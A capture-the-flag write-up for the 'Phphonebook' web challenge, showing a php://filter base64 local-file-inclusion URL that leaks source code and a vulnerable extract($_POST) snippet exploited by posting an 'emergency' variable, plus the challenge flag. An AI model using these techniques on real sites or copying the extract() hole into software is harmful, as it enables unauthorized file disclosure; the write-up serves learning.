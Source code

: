 # Phphonebook

## Problem

```
Ring ring! Need to look up a number? This phonebook has got you covered! But you will only get a flag if it is an emergency!

Connect here:
http://jh2i.com:50002
```

## Solution

Accessing the main page, we get this message:

![](images/phphonebook1.PNG)

This hints to us that we should be doing a LFI. We try `http://jh2i.com:50002/index.php?file=phphonebook.php` and it 
gives us this new page:

![](images/phphonebook1a.PNG)

We obtain the base64 encoded version of the phphonebook.php page at
 ```
http://jh2i.com:50002/index.php/?file=php://filter/convert.base64-encode/resource=phphonebook.php
```

Decoding it reveals a hidden function:

```
    <div id="php_container">
    <?php
      extract($_POST);

    	if (isset($emergency)){
    		echo(file_get_contents("/flag.txt"));
    	}
    ?>
  </div>
```

This function checks if a local variable `emergency` is set, printing the flag if it does. Using burpsuite, we 
manipulate the query to set `emergency` to 1. Response contains the flag.

![](images/phphonebook_flag.PNG)

**Flag**: `flag{phon3_numb3r_3xtr4ct3d}`